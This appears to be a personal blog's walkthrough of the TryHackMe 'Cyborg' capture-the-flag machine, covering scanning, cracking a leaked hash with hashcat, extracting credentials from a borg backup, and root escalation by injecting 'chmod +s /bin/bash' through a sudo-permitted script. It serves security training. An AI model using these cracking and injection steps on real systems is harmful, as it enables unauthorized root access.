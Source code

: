 ```yaml
---
title: Cyborg Machine TryHackMe
date: 2022-10-23 00:22:25 +0800
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


# Description

This machine will be pwned using hash decryption, borg software to download files and privilege escalation with bash scripting.

# Enumeration

after a first scan: This is reported to us from the nmap scan:

```ruby
 # Nmap 7.92 scan initiated Sat Oct 22 19:01:56 2022 as: nmap -p22,80 -sCV -oN targeted 10.10.131.6
Nmap scan report for 10.10.131.6
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Sat Oct 22 19:02:18 2022 -- 1 IP address (1 host up) scanned in 21.75 seconds
```
# Exploitation

>So we will have to get into the target machine ussing ssh, since there is no other way.
{: .prompt-tip}

If we go to the page:

```shell
http://MACHINE_IP
```
We get no big deal, so lets run a dirbust scan, from which we get:

```ruby
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.104.12
[+] Method:                  GET
[+] Threads:                 128
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/10/23 22:32:12 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 312] [--> http://10.10.104.12/admin/]
/etc                  (Status: 301) [Size: 310] [--> http://10.10.104.12/etc/]  
```
Lets head to our new directories:

```shell
http://MACHINE_IP/admin
http://MACHINE_IP/etc
```
At the first link, we can see some interesting stuff, but lets go straight up to the Archive>Download part
![Desktop View](/assets/img/cyborg_download.png){: w="700" h="400"}

If we click on download, we get a file called archive.tar, which we can unzip using:

```shell
tar -xvf archive.tar
```
Now lets head to the /etc directorie inside the web page, from where we get:

```shell
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```
>We will use this credentials to download the music_archive from the unzipped archive.tar
{: .prompt-tip}

First of all, lets try to unhash the password for music_archive. To do this, lets check its type:

```shell
❯ hash-id -f hash.txt
Hash: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
  [+] MD5(APR)
```
Now we know its type, we can unhash it using hashcat:

```shell
hashcat --force -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
From there, we can get the following password:

```shell
squidward
```
Now lets get the music_archive from the borg repository we just downloaded. To do this, cd to it and use the following command:

```shel
borg extract /path/to/repo::music_archive
```
We will be asked a password. Type in the one we got before: squidward 

Now we got a /home folder downloaded into te repository, from were we can extract this from the Documents directory:

```shell
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```
>Now we can use this password for the ssh service: alex@{VICTIM_IP}
{: .prompt-tip}

>If we cat the "user.txt", we can get the user flag
{: .prompt-info}

Its time to escalate some privilege, to do this, we will run this command:

```shell
sudo -l
```
From where we get the following output:

```ruby
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
alex@ubuntu:~$ 
```
As we can see, we can run the backup.sh as alex user without being requiered a password, so lets check it:

```bash
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/so$

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```
From here, there is an interesting line:

```bash
while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done
```
From here we can understand that the command "c" will be executed. It means we can pass it a bash command to become root,so lets do it:

```shell
sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
```
Now we can run "bash -p" command and we will become root

>NOW WE CAN SUBMIT THE ROOT FLAG! CONGRATULATIONS, YOU MAKED IT TILL THE END
{: .prompt-tip}


